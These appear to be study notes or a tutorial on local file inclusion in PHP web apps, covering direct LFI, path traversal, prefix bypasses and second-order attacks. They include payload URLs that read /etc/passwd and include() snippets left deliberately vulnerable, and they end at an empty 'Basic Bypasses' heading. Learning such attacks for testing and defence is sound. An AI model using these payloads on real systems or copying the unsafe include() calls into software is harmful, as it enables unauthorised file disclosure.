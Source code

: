 ## Basic LFI

Taking the last example, a page that allow to change language can be seen as: `http://<ip>/index.php?language=es.php`

We can try a direct LFI to see other files.
```
http://<ip>/index.php?language=/etc/passwd
``` 

## Path Traversal 

The example was using an **absolute path**, this could work with a code like:
```php
include($_GET['language']);
```

But if the code has some type of restriction as:
```php
include("./languages/" . $_GET['language']);
```

In this case, the path will be `./languages//etc/passwd`, leading to an error. So we need to try with **relative path**. In Windows and Linux `..` means one folder back. We can try with: 
```
http://<ip>/index.php?language=../../../etc/passwd
```

## Filename Prefix 

If the code simply add the prefix:
```php
include("lang_" . $_GET['language']);
```

Our last example will be `lang_../../../etc/passwd`. We need to break it: 
```
http://<ip>/index.php?language=/../../../etc/passwd
```

The final output will be `lang_/../../../etc/passwd`

> Maybe `lang_/` don't exist and the page break instead of showing the file.
{: .prompt-warning }

a


## Second-Order Attacks 

In some cases, we can use variables inside the web to provoke a LFI. It is called *Secon-Order* because we infect a service (for example a database), and other (like the web) perform the attack.

For example, if our profile picture is from `/profile/$username/avatar.png`{: .filepath}, we can change our username to `../../../etc/passwd`.

## Basic Bypasses
